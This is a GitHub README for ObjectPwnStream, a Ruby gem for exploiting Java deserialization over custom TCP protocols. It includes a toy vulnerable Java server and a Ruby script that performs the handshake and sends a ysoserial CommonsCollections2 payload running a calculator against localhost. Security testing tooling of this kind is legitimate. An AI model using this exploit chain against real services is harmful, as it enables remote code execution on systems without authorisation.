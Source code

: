 # ObjectPwnStream

a Ruby implementation of Java's `ObjectInputStream` and `ObjectOutputStream`, to ease the process of Java deserialization exploitation on custom TCP based network protocols.

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'ObjectPwnStream'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install ObjectPwnStream

Or install it from main branch:

    $ git clone https://github.com/hakivvi/ObjectPwnStream
    $ cd ObjectPwnStream
    $ bundle install && bundle exec rake install
## Usage
the library provides a set of methods to mimic the methods of both `ObjectInputStream` and `ObjectOutputStream`,

the `readObject()` method is not always the first function run on a TCP socket, so you can't just feed the server with your serialized payload or else `java.io.StreamCorruptedException` will be thrown by the server.

take this [test server](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServer.java) for example, which does read and write a bunch of types before actually calling `readObject()` which the attacker is usually interested in:
```java
                s = serverSock.accept();
                System.out.println("[+] Connection accepted from " + s.getInetAddress().getHostAddress() + ":" + s.getPort());
                
                oos = new ObjectOutputStream(s.getOutputStream());
                ois = new ObjectInputStream(s.getInputStream());

                oos.writeInt(serverVersion);
                oos.flush();
                System.out.printf("[>] writeInt(): 0x%x\n", serverVersion);

                System.out.printf("[<] readInt(): 0x%x\n", ois.readInt());

                oos.writeUTF(serverName);
                oos.flush();
                System.out.printf("[>] writeUTF(): %s\n", serverName);

                System.out.printf("[<] readUTF(): %s\n", ois.readUTF());


                oos.writeShort(0xabcd);
                oos.flush();
                System.out.printf("[>] writeShort(): 0x%x\n", 0xabcd);

                System.out.printf("[<] readShort(): 0x%x\n", ois.readShort());
                
                oos.writeLong(-12345);
                oos.flush();
                System.out.printf("[>] writeLong(): %d\n", -12345);

                System.out.printf("[<] readLong(): %d\n", ois.readLong());


                oos.writeObject(new ToyServer());
                oos.flush();
                System.out.println("[>] writeObject()");

                System.out.println("[<] readObject()");
                try {
                	ois.readObject();
               	} catch (Throwable e) {}
```
to reach the `readObject()` method in this server connection, we should read and write successively `int`, `utf`, `short` etc.
using `ObjectPwnStream` library, we can do just that:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new("127.0.0.1", 9090)
pwnStream.connect!
pwnStream.open_streams!
pwnStream.read_int
pwnStream.write_int 0x1337
pwnStream.read_utf
pwnStream.write_utf "ObjectPwnStream"
pwnStream.read_short
pwnStream.write_short 0xabcd
pwnStream.read_long signed=true
pwnStream.write_long -12345
pwnStream.read_object
pwnStream.ysoserial_generate!("./ysoserial.jar","CommonsCollections2", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
```
## PoC

find a test vulnerable Java server and a Ruby ObjectPwnStream exploit in the [test](https://github.com/hakivvi/ObjectPwnStream/tree/main/spec/test) directory.

![poc](https://user-images.githubusercontent.com/67718634/170808392-1ce8efff-b8c6-4372-8d7a-b20b4fbeadc9.gif)


## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ObjectPwnStream. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the ObjectPwnStream project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://opensource.guide/code-of-conduct/).

## Todo

- document all the functions.
- support CLI mode.
